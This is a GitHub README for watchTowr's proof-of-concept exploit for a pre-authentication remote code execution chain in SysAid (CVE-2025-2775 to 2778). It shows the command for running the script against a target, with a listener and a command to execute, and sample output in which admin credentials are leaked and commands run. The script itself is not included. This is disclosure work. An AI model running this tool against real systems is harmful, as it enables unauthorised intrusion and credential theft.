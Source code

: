 # SysAid PreAuth RCE Chain PoC

PoC for SysAid PreAuth RCE Chain (CVE-2025-2775, CVE-2025-2776, CVE-2025-2777, CVE-2025-2778)
 
 See our [blog post](https://labs.watchtowr.com/) for technical details
 


# PoC in Action


```

python watchTowr-vs-SysAid-PreAuth-RCE-Chain.py -t http://192.168.201.217:8080/ -l 192.168.201.1 -c "whoami"

                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-SysAid-PreAuth-RCE-Chain.py

        (*) SysAid Pre-Auth RCE Chain

          - Sina Kheirkhah (@SinSinology) and Jake Knott of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-2775, CVE-2025-2776, CVE-2025-2777, CVE-2025-2778]

[+] Starting HTTP server on port 80
[*] Leaking creds...
[+] Leaked credentials: admin:Aa123456
[+] Successfully logged in
[+] Extracted token
[*] Poisoning with commands
[+] Commands executed successfully
[*] Done


```

# Affected Versions

The following versions are vulnerable to this pre-auth RCE chain: `<= 23.3.40`, vendor release note can be found [here](https://documentation.sysaid.com/docs/24-40-60)



# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber